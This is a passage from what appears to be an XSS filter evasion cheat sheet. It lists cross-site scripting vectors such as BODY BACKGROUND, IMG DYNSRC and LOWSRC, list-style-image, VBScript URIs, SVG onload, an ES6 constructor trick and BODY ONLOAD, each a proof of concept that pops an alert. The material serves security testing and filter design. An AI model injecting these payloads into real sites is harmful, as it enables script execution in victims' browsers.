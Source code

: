     <BODY BACKGROUND="javascript:alert('XSS')">

## IMG Dynsrc

    <IMG DYNSRC="javascript:alert('XSS')">

## IMG lowsrc

    <IMG LOWSRC="javascript:alert('XSS')">

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists.
This will only work in the IE rendering engine because of the JavaScript
directive. Not a particularly useful cross site scripting vector:

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

## VBscript in an image

    <IMG SRC='vbscript:msgbox("XSS")'>

## Livescript (older versions of Netscape only)

    <IMG SRC="livescript:[code]">

## SVG object tag

    <svg/onload=alert('XSS')>

## ECMAScript 6

    Set.constructor`alert\x28document.domain\x29```

## BODY tag

Method doesn't require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign (`onload=` != `onload =`):

    <BODY ONLOAD=alert('XSS')>

## Event Handlers

It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice [list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).
